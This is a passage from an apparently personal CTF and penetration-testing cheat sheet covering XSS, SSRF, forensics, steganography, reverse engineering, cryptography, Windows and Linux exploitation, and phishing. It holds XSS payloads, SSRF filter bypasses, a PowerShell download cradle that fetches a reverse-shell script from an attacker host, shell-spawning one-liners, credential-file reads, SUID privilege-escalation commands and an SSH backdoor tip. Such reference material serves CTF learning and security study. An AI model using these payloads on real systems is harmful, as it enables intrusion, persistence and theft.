**Business Logic:**  
This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called user.changeEmail(). Your payload could look like this: 
`<script>user.changeEmail('attacker@hacker.thm');</script>`

### A command to rule them all (Polyglots)
An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one. 

This command will print "BERKAN_WAS_HERE" on the screen.
```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('BERKAN_WAS_HERE') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('BERKAN_WAS_HERE')//>\x3e 
```
## Server Side Request Forgery (SSRF)
SSRF stands for Server-Side Request Forgery. It's a vulnerability that allows a malicious user to cause the webserver to make an additional or edited HTTP request to the resource of the attacker's choosing.

There are two types of SSRF vulnerability; the first is a regular SSRF where data is returned to the attacker's screen. The second is a Blind SSRF vulnerability where an SSRF occurs, but no information is returned to the attacker's screen.

**What's the impact?**  
A successful SSRF attack can result in any of the following: 

* Access to unauthorised areas.
* Access to customer/organisational data.
* Ability to Scale to internal networks.
* Reveal authentication tokens/credentials.

### Finding an SSRF
* When a full URL is used in a parameter in the address bar:
  * `https://berkankutuk.dk/form?server=http://server.website.com/store`
* A hidden field in a form:
  ```html
  <form ...>
      <input type = "hidden" name="server" value="=http://server.website.com/store">
      ...
  ```
* A partial URL such as just the hostname:
  * `https://berkankutuk.dk/form?server=api`
* Or perhaps only the path of the URL:
  * `https://berkankutuk.dk/form?dst=/forms/contact`

### Attack
**Vulnerable site:**  
`http://berkankutuk.dk/users?url=....`

Directory traversal can also be used on some cases, and so can the `&x=` to stop the remaining path from being appended.

### Defeating Common SSRF Defenses
1. Deny list
   1. A specific endpoint to restrict access is the localhost, which may contain server performance data or further sensitive information, so domain names such as localhost and 127.0.0.1 would appear on a deny list. 
   2. Attackers can bypass a Deny List by using alternative localhost references such as 0, 0.0.0.0, 0000, 127.1, 127.*.*.*, 2130706433, 017700000001 or subdomains that have a DNS record which resolves to the IP Address 127.0.0.1 such as 127.0.0.1.nip.io.
2. Allow list
   1. An URL used in a parameter must begin with `https://website.com`.
   2. An attacker could quickly circumvent this rule by creating a subdomain on an attacker's domain name, such as `https://website.com.attackers-domain.com`. The application logic would now allow this input and let an attacker control the internal HTTP request.
3. Open Redirect
   1. An open redirect is an endpoint on the server where the website visitor gets automatically redirected to another website address.
   2. But imagine there was a potential SSRF vulnerability with stringent rules which only allowed URLs beginning with `https://website.com/`. An attacker could utilise the above feature to redirect the internal HTTP request to a domain of the attacker's choice.

This IP address may contain sensitive data in a cloud environment:    
`169.254.169.254`

# Forensics
Is simply 'the art of uncovering'

Digital forensics is a branch of forensic science that focuses on identifying, acquiring, processing, analysing, and reporting on data stored electronically.

Use case  
* Find hidden information in files or meta data
* Recover lost or deleted data
* Reconstruct corrupted files
* Recognize file structures and identify file formats
* Understand a course of events from network logs or memory dumps
* Hash cracking 
## File analysis
### Encodings
* **Decimal:** 70 111 114 101 110 115 105 99 115 33
* **Hex:** 46 6f 72 65 6e 73 69 63 73 21
* **Octal:** 106 157 162 145 156 163 151 143 163 41
* **ASCII:** Forensics!
* **Base64:** Rm9yZW5zaWNzIQ==
* **Base85:** 7W3<YDKBN%F!1

### File type
The file type is often indicated by the file extension in the file name, e.g. .png, .mp4
* Typically what the OS uses to assess how to open / interpret the file
* Do not rely on extensions! Can be modified to trick the OS into misinterpreting data

The file type is indicated in the contents of the file with a file signature - a magic number
* Hex string at a specific offset
* Eg PNG files: 89 50 4e 47 (last three hex is PNG in ASCII)
* Tool: `file`

**pngcheck**  
A command-line tool for "checking" a PNG image file. Especially good for verifying checksums.

### Metadata
The file extension is one form of metadata: (data about data)

Additional information about a file in addition to the content itself
* General: File name, extension, size, time of origin, permissions
* Specific: GPS data in images, number of frames in GIF, CPU architecture in executables, etc.

Why analyze metadata?
* Can store important info - maybe even info that should have been hidden
* In some cases even more important than content - eg with encrypted HTTPS traffic
* Tool: `exiftool`

**PDF Analysis**  
We can try to read the metadata using the program `pdfinfo`. Pdfinfo displays various metadata related to a PDF file, such as title, subject, author, creator, and creation date. If you don’t have `pdfinfo` installed, you can install it using: `sudo apt install poppler-utils`

If the PDF file is password protected, another tool named `pdfcrack` can be used with a wordlist in order to bruteforce the password.

**Example:**  
`pdfcrack -q -w /usr/share/wordlists/rockyou.txt encrypted.pdf`

**Geographical Coordinates**  
Longitude Latitude

Can be written as:
```
51 deg 30' 51.90" N, 0 deg 5' 38.73" W

replaced deg with °
51° 30' 51.90" N, 0° 5' 38.73" W

or simply 51.514417, -0.094092
``` 

### File format
A file type has a specific format - the structure of the file

Typical structure
* Signature file - magic number

Header - typical info to be used to understand the content (metadata)
* Possibly meta data
* Data
* Trailer that completes the file

The format is precisely defined in a specification doc - often publicly available
* Corrupted files: compare file with specification, correct differences with hex editor
* Unknown file types: search for tracks from a file format 

## PCAP Analysis
`TO BE ADDED`

## Steganography
Steganography is the practice of hiding a secret message in something that is not secret, for example: A message inside a jpg file, or a binary inside a png.

**File Carving**  
File carving: extract files based on the file format
* Look for file signatures, headers, trailers, etc.
* Originally used in connection with. extraction of files from disk images and memory dumps
* Useful for extracting files stored in other files in stego challenges

File carving tools:
* binwalk
* foremost
* dd (manual extraction)
  * dd if = input.png or = output.txt bs = 1 skip = 1000 count = 32 

**Tools**  
`Steghide` = JPEG(primarily), BMP, WAV and AU  
`Zsteg` = PNG(primarily), BMP

### Stegsnow
stegsnow is a program for concealing messages in text files by appending tabs and spaces (whitespace) on the end of lines, and for extracting messages from files containing hidden messages.

**Useful commands:**  
`stegsnow -C -m <message> -p <password> <inputfile> <outputfile>` compress a message in a text file and save it to a new file
`stegsnow -C -p <password> <inputfile> <outputfile>` uncompress a message in a text file and save it to a new file 

### Steghide
Steghide is a steganography program that hides data in various kinds of image and audio files, only supports these file formats : JPEG, BMP, WAV and AU. But it’s also useful for extracting embedded and encrypted data from other files. One of the greatest benefits of stegohide, is that it can encrypt data with a passphrase 

Install steghide with `sudo apt install steghide`

**Useful commands:**  
`steghide info <filepath>`  displays info about whether a file has embedded data or not.  
`steghide extract -sf <filepath>`  extracts embedded data from a stegofile  
`steghide embed -cf <filepath> -ef <textfile>`  embed data from a coverfile to a embedfile

### Stegsolve
Sometimes there is a message or a text hidden in the image itself and in order to view it you
need to apply some color filters or play with the color levels. You can do it with GIMP or
Photoshop or any other image editing software but stegsolve made it easier. It’s a small java tool that applies many color filters on images.

**Installation**
```bash
wget http://www.caesum.com/handbook/Stegsolve.jar -O stegsolve.jar
chmod +x stegsolve.jar
```

And then run it with
```bash
java -jar bin/stegsolve.jar
```

### Stegseek
[Stegseek](https://github.com/RickdeJager/stegseek) is a lightning fast steghide cracker

After installing stegseek [here](https://github.com/RickdeJager/stegseek/blob/master/BUILD.md), you can use it to crack a password protected steghide file with the following command:
```bash
stegseek <file>
```

### Stegoveritas
Stegoveritas supports just about every image file, and is able to extract all types of data from it

**Installation:**
```console
berkankutuk@kali:~$ sudo pip3 install stegoveritas 
berkankutuk@kali:~$ stegoveritas_install_deps
```

**Useful commands:**   
`stegoveritas filename` - Simple stego scan   
`stegoveritas -meta filename` - Check file for metadata information  
`stegoveritas -steghide filename` -  Check for StegHide hidden info.  
`stegoveritas -extractLSB filename` -  Extract a specific LSB RGB from the image.

### Stego-toolkit
Collection of steganography tools - helps with CTF challenges


### Strings
Strings is a linux tool that displays printable strings in a file. That simple tool can be very helpful when solving stego challenges. Usually the embedded data is password protected or encrypted
and sometimes the password is actaully in the file itself and can be easily viewed by using strings.
It’s a default linux tool so you don’t need to install anything.

**Useful commands:**  
`strings file`  displays printable strings in the given file

### Exiftool
Sometimes important stuff is hidden in the metadata of the image or the file , exiftool can be
very helpful to view the metadata of the files.

**Useful commands:**  
`exiftool file`  shows the metadata of the given file

### Exiv2
A tool similar to exiftool.

**Useful commands:**  
`exiv2 file` shows the metadata of the given file  

### Binwalk
Binwalk is a tool for searching binary files like images and audio files for embedded files and data.

**Useful commands:**  
`binwalk <filepath>` Displays the embedded data in the given file  
`binwalk -e <filepath>` Displays and extracts the data from the given file

### Foremost
`foremost` is another file carving tool like binwalk, and can be installed with `sudo apt-get install foremost`.

**Useful commands:**  
Search for all file types in the given image file   
`foremost image.png`  

 Search for a selection of file types in the given image file (`-i image.dd`)   
`foremost -t doc,jpg,pdf,xls -i image.dd`

### Zsteg
zsteg is a tool that can detect hidden data in png and bmp files.

**Useful commands:**  
`zsteg file` Runs a simple scan on the given file  
`zsteg -a file` Runs all the methods on the given file  
`zsteg -E file` Extracts data from the given payload (example : zsteg -E b4,bgr,msb,xy
name.png)  
`zsteg -l 0 file` Limits the bytes checked to 0  

### Jsteg
Another command-line tool to use against JPEG Images

### Zbarimg
A command-line tool to quickly scan multiple forms of barcodes (QR Codes)

Install with `sudo apt install zbar-tools`

**Useful commands:**  
`zbarimg <filename>`

Alternatively, you can use a online tool like [zxing](https://zxing.org/w/decode.jspx) to decode QR codes.

### Wavsteg
WavSteg is a python3 tool that comes with the package `stegolsb` which can hide data and files in wav files and can also extract data from wav files.

**Useful commands:**  
`python3 WavSteg.py -r -i soundfile -o outputfile` extracts data from a wav sound file and
outputs the data into a new file

Use an online tool like [Databorder Morse](https://databorder.com/transfer/morse-sound-receiver/) or [Morse Code World](https://morsecode.world/international/decoder/audio-decoder-adaptive.html) if the wav file contains morse code.

### Outguess
OutGuess is a universal tool for steganography that allows the insertion of hidden information into the redundant bits of data sources. The supported formats are JPEG, PPM and PNM.

**Useful commands:**  
To embed the message hidden.txt into the monkey.jpg image:  
`outguess -k "my secret pass phrase" -d hidden.txt monkey.jpg out.jpg`

Retrieve the hidden message from the image:   
`outguess -k "my secret pass phrase" -r out.jpg message.txt`

**Options:**   
`-k <key>`  key  
`-d <name>` filename of dataset  
`-p <param>`   parameter passed to destination data handler  
`-r`           retrieve message from data  

### Sonic visualizer
Sonic visualizer is a tool for viewing and analyzing the contents of audio files, however it can be
helpful when dealing with audio steganography. You can reveal hidden shapes in audio files or use it to se hidden images inside audio files.

`Layer->Add Spectrogram` should work

## Memory analysis
Traditionel computer forensics can be made out of volatile memory.

What is volatile data?
* Volatile data: non-permanent data, disappears when the power goes out
* Typically the contents of main memory RAM
* "Live box forensics"
* Analysis takes place on a memory dump - provides a snapshot 

Data that can be found in volatile memory
* Running processes and services
* Open files
* Network connections
* Run commands
* Passwords, keys
* Unencrypted data that is encrypted on disk but must be used in decrypted mode in memory
* Stateless malware - malware that lives only in memory
* Even things like a basic screenshot or the user's clipboard 

A tool used for analyzing memory dumps is [volatility 3](https://github.com/volatilityfoundation/volatility3).

### Volatility 3
Volatility 3 is a memory forensics framework that allows you to analyze memory dumps.

**Useful commands:**
* `vol.py -f <memory dump> imageinfo` - Get information about the memory dump
* `vol.py -f <file> windows.filescan.FileScan` - List all files in the memory dump
* `vol.py -f <file> windows.pslist.PsList` - List all processes in the memory dump
* `vol.py -f <file> windows.dumpfiles.DumpFiles --virtaddr <address>` - Dump a file from the memory dump
  * `--pid PID` Process ID to include (all other processes are excluded)
  * `--virtaddr VIRTADDR`  Dump a single _FILE_OBJECT at this virtual address
  * `--physaddr PHYSADDR`  Dump a single _FILE_OBJECT at this physical address

Remember to append the `--output-dir <directory>` flag to save the output to a directory. Or simply redirect the output to a file with `> <filename>`.

## Disk imaging
`TO BE ADDED`

# Binary Exploitation
## Registers
`TO BE ADDED`
## The Stack
`TO BE ADDED`
## Calling Conventions
`TO BE ADDED`
## Global Offset Table (GOT)
`TO BE ADDED`
## Buffers
### Buffer Overflow
Buffer overflow is a type of security vulnerability that occurs when a program, while writing data to a buffer, overruns the buffer's boundary and overwrites adjacent memory locations. This can cause the program to crash or, in the case of a remote attacker, to execute arbitrary code on the system.

### Buffer Overflow Exploitation example
`python -c "print ('A' * 100)" | ./<executable>`

## Return Oriented Programming (ROP)
`TO BE ADDED`
## Binary Security
### No eXecute (NX)
`TO BE ADDED`
### Address Space Layout Randomization (ASLR)
`TO BE ADDED`
### Stack Canaries
`TO BE ADDED`
### Relocation Read-Only (RELRO)
`TO BE ADDED`
## The Heap
### Heap Exploitation
`TO BE ADDED`
## Format String Vulnerability
`TO BE ADDED`

# Reverse Engineering
## Assembly
Find the in-depth content for the Assembly x86-64 language [here](/More/Assembly/Readme.md) inside this repository.

`TO BE ADDED`
## Disassemblers
Reverse-engineering is the creative process of analyzing software and understanding it without having access to the source code. It is the process by which software is deconstructed in a way that reveals its innermost details such as its structure, function and operation.

### gdb
GDB, the GNU Project debugger, allows you to see what is going on `inside' another program while it executes -- or what another program was doing at the moment it crashed.

```bash
berkankutuk@kali:~$ gdb <binary file>` # opens the binary file in gdb

(gdb)> break <function name> # sets a breakpoint at the given function
(gdb)> break *<addr> # sets a breakpoint at the given address
(gdb)> run # runs the program until it reaches the first breakpoint
(gdb)> disassemble <function name> # disassembles the given function
(gdb)> x /s <addr> # prints a string from memory address
(gdb)> continue # continues the execution of the program
(gdb)> info registers # prints the values of the registers
(gdb)> info variables # prints the values of the variables
(gdb)> info functions # prints the functions
(gdb)> exploit # runs the exploit
(gdb)> x # inspect memory locations
(gdb)> quit # quits gdb
```

### radare2
Radare2 is an open-source framework that can perform disassembly, debugging, analysis, comparing data and manipulation of binary files. 

```bash
berkankutuk@kali:~$ r2 <binary file>` # opens the binary file in radare2
berkankutuk@kali:~$ r2 -d <binary file>` # opens the binary file in radare2 in debug mode 

# General
[0x00400510]> aaa # Analyze the binary
[0x00400510]> afl # List functions
[0x00400510]> s main # Go to main function
[0x00400510]> pdf # Print disassembled function
[0x00400510]> s/ password # Search for data within the code
[0x00400510]> V # Hex view

# Debug mode
[0x00400510]> dc # Launch the executable
[0x00400510]> dr # Check register state 
```

### Ghidra
Ghidra is a software reverse engineering (SRE) framework created and maintained by the National Security Agency (NSA). It is a free and open-source software reverse engineering tool released under the Apache License 2.0.

```bash
berkankutuk@kali:~$ ghidraRun <binary file>` # opens the binary file in ghidra
```

GUI of Ghidra
```bash
Right click -> Patch Instruction -> Values # Patch the instruction with the given values 
File -> Export Program -> Export as ELF # Export the binary as an ELF file

Symbol Tree -> Functions # List functions (ex. Main)
```

## Call Graphs
[Cytoscape](https://github.com/cytoscape/cytoscape) is a tool for network analysis and visualization that can be used to see call graphs.

**Useful functions:**
- Layout -> Grid View = Show a grid view of the nodes.
- Pathlinker = Find paths between nodes. Needs a source and a target node. K = number of paths to find. Is mostly one in CTF situations.

# Cryptography
## Decrypting Methods
### Cryptii
[Cryptii](https://cryptii.com) has multiple decoding tools like base64, Ceaser Cipher, ROT13, Vigenère Cipher and more.

### Keyboard Shift
[Dcode](https://www.dcode.fr/keyboard-shift-cipher) If you see any thing that has the shape of a sentence but it looks like nonsense letters, and notes some shift left or right, it may be a keyboard shift...

### Bit Shift
Sometimes the letters may be shifted by a stated hint, like a binary bit shift ( x >> 1 ) or ( x << 1 ).

### Reversed Text
Sometimes a "ciphertext" is just as easy as reversed text. Don't forgot to check under this rock! You can reverse a string in Python like so:

"UOYMORFEDIHOTGNIYRTEBTHGIMFTCA.TAHTTERCESASISIHT"[::-1]

### XOR
ANY text could be XOR'd. Techniques for this are Trey's code, and XORing the data against the known flag format. Typically it is given in just hex, but once it is decoded into raw binary data, it gives it keeps it's hex form (as in \xde\xad\xbe\xef etc..) Note that you can do easy XOR locally with Python like so (you need pwntools installed):

`python >>> import pwn; pwn.xor("KEY", "RAW_BINARY_CIPHER")`

### Vigenère Cipher
The Vigenère cipher is a method of encrypting alphabetic text by using a series of interwoven Caesar ciphers, based on the letters of a keyword. It employs a form of polyalphabetic substitution.

The encryption of the original text is done using the Vigenère square or Vigenère table. It is a table of alphabets written out 26 times in different rows, each alphabet shifted cyclically to the left compared to the previous alphabet, corresponding to the 26 possible Caesar ciphers. At different points in the encryption process, the cipher uses a different alphabet from one of the rows. The alphabet used at each point depends on a repeating keyword.

### Caesar Cipher
The Caesar cipher is one of the earliest known and simplest ciphers. It is a type of substitution cipher in which each letter in the plaintext is replaced by a letter some fixed number of positions down the alphabet. For example, with a left shift of 3, D would be replaced by A, E would become B, and so on. The method is named after Julius Caesar, who used it in his private correspondence.

### ROT13
ROT13 is a simple letter substitution cipher that replaces a letter with the letter 13 letters after it in the alphabet. ROT13 is an example of the Caesar cipher which was developed in ancient Rome.

### Substitution Cipher
A substitution cipher is a method of encoding by which units of plaintext are replaced with ciphertext, according to a fixed system; the "units" may be single letters (the most common), pairs of letters, triplets of letters, mixtures of the above, and so forth. The receiver deciphers the text by performing the inverse substitution.

Useful tools for substitution ciphers are [Cryptii](https://cryptii.com) and [Dcode](https://www.dcode.fr/substitution-cipher).

## Encoding
Encoded data can be decoded immediately, without keys. It's NOT a form of encryption, it just a way of representing data.

**A very popular encoding is Base64.**  
The basic idea behind Base64 encoding is to represent binary data using only ASCII characters. To do this, Base64 converts each 3 bytes of binary data into 4 bytes of ASCII text. The 3 bytes of binary data are divided into 4 groups of 6 bits each, which are then represented by a character from a set of 64 characters. The 64 characters used in Base64 are:

`ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/`

The equals sign (=) is also used as a padding character to ensure that the length of the output is a multiple of 4 characters.

For example, let's say we want to encode the binary data "`011000010110001001100011`", which represents the ASCII characters "`abc`". To encode this data in Base64, we first divide it into 3-byte groups:

`01100001 01100010 01100011`

Then we divide each 3-byte group into 4 groups of 6 bits each:

`011000 010110 001001 100011`

Next, we convert each group of 6 bits to its corresponding Base64 character:

`Y W J j`

So the encoded Base64 string for "`abc`" is "`YWJj`".

### Encoding a string in the terminal
```bash
echo -n "Hello World" | base64
```

### Decoding a string in the terminal
```bash
echo -n "SGVsbG8gV29ybGQ=" | base64 -d
```

### Encoding/Decoding files
```bash
base64 /path/to/file > output.txt # Encoding
base64 -d /path/to/file > output.txt # Decoding
```

## Hashing
Hashing is used for 2 main purposes in Cyber Security. To verify integrity of data, or for verifying passwords. 

plaintext ➡️ hash  
hash ⛔ plaintext

Doing a lookup in a sorted list of hashes that are not salted is quite fast, much much faster than trying to crack the hash. But in case we have to crack, then its done by hashing a large number of different inputs (often rockyou.txt, these are the possible passwords), potentially adding the salt if there is one and comparing it to the target hash. 

Tools like Hashcat and John the Ripper are normally used for this.
## Ciphers
`TO BE ADDED`
## Encryption (RSA)
### Symetric encryption
plaintext ➡️ 🔑 ➡️ ciphertext  
plaintext ⬅️ 🔑 ⬅️ ciphertext  
(🔑 shared key)

### Asymetric encryption
plaintext ➡️ 🔑 ➡️ ciphertext  
plaintext ⬅️ 🗝 ⬅️ ciphertext  
(🔑 public key, 🗝 private key

Public key to encrypt, private key to decrypt.

# Miscellaneous
`TO BE ADDED`

## Shortened URLs
You can see the actual website the shortened link is redirecting you to by appending "+" to it (see the examples below). Type the shortened URL in the address bar of the web browser and add the above characters to see the redirect URL.

Example: 
[tinyurl.com/cn6xznu+](http://tinyurl.com/cn6xznu+)

Example providers:
- bit.ly
- goo.gl
- ow.ly
- s.id
- smarturl.it
- tiny.pl
- tinyurl.com
- x.co

# Windows Exploitation
## Active directory
Active Directory is a collection of machines and servers connected inside of domains, that are a collective part of a bigger forest of domains, that make up the Active Directory network. 

Other related terms include: Domain controllers, Trusts & Policies, Services, Authentication & Cloud security.

## Windows Reverse Shells
If you have access to PowerShell, you can get a Reverse shell by using [nishang's](https://github.com/samratashok/nishang) Invoke-PowerShellTcp.ps1 script inside of the Shells directory. Be sure to add the function call example to the bottom of your script, so all you need to to do to host it is (on your Attacker machine):
```
python -m SimpleHTTPServer
```
and then on the victim machine:
```
powershell IEX( New-Object Net.WebClient).DownloadString("http://10.10.14.6:8000/reverse.ps1") )
```
Also, if you want to have nice up and down arrow key usage within your Windows reverse shell, you can use the utility rlwrap before your netcat listener command.

```
rlwrap nc -lnvp 9001
```

## Samba (SMB)
smbmap tells you permissions and access, which smbclient does not do!

**smbmap**  
To try and list shares as the anonymous user DO THIS (this doesn't always work for some weird reason)  
`smbmap -H <IP> -u anonymous`

**enum4linux**    
Another enumeration tool is enum4linux which can be used like this:  
`enum4linux <ip>`

**smbclient**  
You can use smbclient to look through files shared with SMB. To list available shares:  
`smbclient -m SMB2 -N -L //10.10.10.125/`

For more, see this page: [Samba](More/Windows-related/Samba.md)

# Shells and Privilege Escalation
## TTY Shell
The tty command of terminal basically prints the file name of the terminal connected to standard input. tty is short of teletype, but popularly known as a terminal it allows you to interact with the system by passing on the data (you input) to the system, and displaying the output produced by the system

**Shell Spawning**  
`python -c 'import pty; pty.spawn("/bin/sh")'`  
`echo os.system('/bin/bash')`  
`/bin/sh -i`  
`perl —e 'exec "/bin/sh";'`  
`perl: exec "/bin/sh";`  
`ruby: exec "/bin/sh"`  
`lua: os.execute('/bin/sh')`  
From within IRB  
`exec "/bin/sh"`  
From within vi  
`:!bash`  
From within vi  
`:set shell=/bin/bash:shell`  
From within nmap  
`!sh`  

Many of these will also allow you to escape jail shells. The top 3 would be my most successful in general for spawning from the command line.

### Reverse Shells 
Reverse shells are used to connect back to a listening machine. This is useful when you have a shell on a machine, but you want to connect back to your own machine.

A useful website to generate a reverse shell is [RevShells](https://www.revshells.com/).

### Shell stabilization
`TO BE ADDED`

## Privilege Escalation 
Check for root password
Run: `id`  
Run: `sudo -l`  
Locate password folder and crack it using johntheripper  
Or use [GTFOBins](https://gtfobins.github.io)

You can also run:  
`wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh` on a target machine to see the files that stand out.

Another option would be to run the following command to find all files with the SUID bit set:   
`find / -perm -u=s -type f 2>/dev/null` fine  
`find / -user root -perm 4000 -print 2>/dev/null` good  
`find / -user root -perm 4000 -exec ls -ldb {} \; 2>/dev/null` better  
`find / -user root -perm 4000 -exec ls -ldb {} \; 2>/dev/null | grep 'bin'` best  

`2>/dev/null` will filter out the errors so that they will not be output to your console

### Find info about the users of the system
Find users on a system  
`cat /etc/passwd | grep “/bin/bash”`

Find passwords  
`cat /etc/passwd`

If you don't have privilege, try this  
`find / -name shadow* 2>/dev/null | head`

### Privilege Escalation using SUID Binaries
`-rwsr-xr-x`  
“s” = SUID. This means that any user can execute these commands and they will be ran as the original owner.

**Example**  
Lets say the `cat` command had the 's' in its SUID. Then you would be able to use something like the following command to read a flag:  
`find /home/berkan/flag1.txt -exec cat {} \;`

### Keeping a backdoor
#### Using SSH
Create a `.ssh` folder in the home directory of the user you want to keep a backdoor. Keep in mind that the permissions of the `.ssh` folder should be `700` and the files withing should be `600`.

# Vulnerabilities
A vulnerability in cybersecurity is defined as a weakness or flaw in the design, implementation or behaviours of a system or application. An attacker can exploit these weaknesses to gain access to unauthorised information or perform unauthorised actions

There are arguably five main categories of vulnerabilities:
| Vulnerability | Description |
|:---:|:---:|
| Operating System | These types of vulnerabilities are found within Operating Systems (OSs) and often result in privilege escalation. |
| (Mis)Configuration-based | These types of vulnerability stem from an incorrectly configured application or service. For example, a website exposing customer details. |
| Weak or Default Credentials | Applications and services that have an element of authentication will come with default credentials when installed. For example, an administrator dashboard may have the username and password of "admin". These are easy to guess by an attacker.  |
| Application Logic | These vulnerabilities are a result of poorly designed applications. For example, poorly implemented authentication mechanisms that may result in an attacker being able to impersonate a user. |
| Human-Factor | Human-Factor vulnerabilities are vulnerabilities that leverage human behaviour. For example, phishing emails are designed to trick humans into believing they are legitimate. |

## Social Engineering
### Phishing

#### Phishing terms
**A BEC (Business Email Compromise)** is when an adversary gains control of an internal employee's account and then uses the compromised email account to convince other internal employees to perform unauthorized or fraudulent actions. 

**A typosquatting attack**, also known as a URL hijacking, a sting site, or a fake URL, is a type of social engineering where threat actors impersonate legitimate domains for malicious purposes such as fraud or malware spreading.

#### Types of Phishing attacks
**Spam** - unsolicited junk emails sent out in bulk to a large number of recipients. The more malicious variant of Spam is known as MalSpam.

**Phishing** -  emails sent to a target(s) purporting to be from a trusted entity to lure individuals into providing sensitive information. 

**Spear phishing** - takes phishing a step further by targeting a specific individual(s) or organization seeking sensitive information.  

**Whaling** - is similar to spear phishing, but it's targeted specifically to C-Level high-position individuals (CEO, CFO, etc.), and the objective is the same. 

**Smishing** - takes phishing to mobile devices by targeting mobile users with specially crafted text messages. 

**Vishing** - is similar to smishing, but instead of using text messages for the social engineering attack, the attacks are based on voice calls. 

#### Analyze/identify
1. Open Email
2. See its raw format
3. Analyze the results:

* **X-Originating-IP** - The IP address of the email was sent from (this is known as an X-header)
* **Smtp.mailfrom/header.from** - The domain the email was sent from (these headers are within Authentication-Results)
* **Reply-To** - This is the email address a reply email will be sent to instead of the From email address

In case the mail is encoded using base64, the following command can be used to decrypt the message:  
`base64 -d <filename> > decrypted.<filetype>` 

#### Phishing security
Hyperlinks and IP addresses should be [defanged](https://www.ibm.com/docs/en/rsoa-and-rp/32.0?topic=SSBRUQ_32.0.0/com.ibm.resilient.doc/install/resilient_install_defangURLs.htm).

Expand shortened links with this [tool](https://www.expandurl.net).
## Misconfigurations
### Printer Hacking (IPP)
Enumeration and exploitation tools can be found [here](https://github.com/RUB-NDS/PRET).  
Printer security cheat sheet can be found [here](http://hacking-printers.net/wiki/index.php/Printer_Security_Testing_Cheat_Sheet).

It allows clients to submit one or more print jobs to the printer or print server, and perform tasks such as querying the status of a printer, obtaining the status of print jobs, or canceling individual print jobs."  
Most of them appear to run the CUPS server (which is a simple UNIX printing system).  

Running `python pret.py` will start an automatic printer discovery in your local network. 
